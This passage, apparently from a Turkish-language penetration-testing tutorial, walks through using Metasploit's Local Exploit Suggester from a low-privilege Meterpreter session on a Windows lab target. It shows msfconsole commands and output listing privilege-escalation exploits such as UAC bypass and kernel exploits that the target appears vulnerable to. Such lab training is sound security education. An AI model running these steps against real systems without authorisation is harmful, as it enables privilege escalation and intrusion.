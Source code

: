 ## **Local Exploit Suggester**  

İpucu olarak, `Local Exploit Suggester` adında bir modül bulunmaktadır. Meterpreter shell, doğal olarak çok fazla izni olmayan `IIS APPPOOL\Web` kullanıcısına indiğinden, bu örnek için bu modülü kullanacağız. Ayrıca, `sysinfo` komutunu çalıştırmak bize sistemin x86 bit mimarisinde olduğunu göstererek Local Exploit Suggester'a güvenmemiz için daha da fazla neden veriyor.

`Local Exploit Suggester` modülü, Meterpreter oturumunu kullanarak hedef sistemde çalıştırılabilecek potansiyel yerel (local) exploitleri önerir. Bu örnekte, elde edilen Meterpreter oturumu **`IIS APPPOOL\Web` kullanıcısı** gibi düşük yetkilere sahip bir kullanıcıda açılmış durumda. Bu nedenle, yükseltilmiş yetkilerle (yani, sistem veya yönetici yetkileriyle) çalıştırmak için ek bir exploite ihtiyaç var.

Ayrıca, `sysinfo` komutu kullanılarak sistemin mimarisi hakkında bilgi edinilir. Örneğin, 32-bit (x86) bir sistem olduğunu görüyorsak, Local Exploit Suggester modülü bu bilgiyi kullanarak **o mimariye uygun exploitleri önerir**. Bu da hedef sistemde yetki yükseltme (privilege escalation) için hangi exploitlerin daha uygun olduğunu hızlıca bulmaya yardımcı olur.


#### **MSF - Local Exploit Suggester Aranıyor**
```shell-session
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
```